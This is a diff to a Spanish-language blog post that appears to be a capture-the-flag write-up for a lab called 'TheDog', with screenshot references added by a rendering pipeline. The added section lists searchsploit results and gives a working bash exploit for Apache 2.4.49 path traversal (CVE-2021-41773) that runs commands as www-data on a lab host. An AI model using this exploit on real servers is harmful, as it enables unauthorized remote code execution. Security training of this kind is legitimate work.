

Before and after one commit to wvverez/wvverez.github.io, a Jekyll site: the page built from _posts/2026-09-02-TheDog.md, in a window 1280 px wide and 1400 px high, scrolled down 1407 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; before the commit the page ends 2037 px from its top, so only the background shows below that.

Commit message:
Update 2026-09-02-TheDog.md

````diff
--- a/_posts/2026-09-02-TheDog.md
+++ b/_posts/2026-09-02-TheDog.md
@@ -81,3 +81,39 @@ MAC Address: 02:42:AC:11:00:02 (Unknown)
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 19.50 seconds
 ```
+
+```sh
+❯ searchsploit Apache 2.4.49
+---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
+ Exploit Title                                                                                                                                      |  Path
+---------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
+Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                                                     | php/remote/29290.c
+Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                                                   | php/remote/29316.py
+Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                                                 | multiple/dos/26710.txt
+Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)                                                                            | multiple/webapps/50383.sh
+```
+
+```sh
+#!/bin/bash
+# https://github.com/wvverez
+# CVE-2021-41773
+
+[ $# -ne 1 ] && echo "[+] Uso: ./$0 <IP>" && exit 1
+URL="http://$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash"
+while true; do
+    read -p ">>> " cmd
+    [ "$cmd" = "exit" ] && exit
+    curl -s -X POST "$URL" -H "Content-Type: text/plain" -d "echo; $cmd"
+done
+```
+
+Si lo ejecutamos
+
+```sh
+❯ bash exploit.sh 172.17.0.2
+>>> whoami
+www-data
+>>> id
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+>>>
+```
````
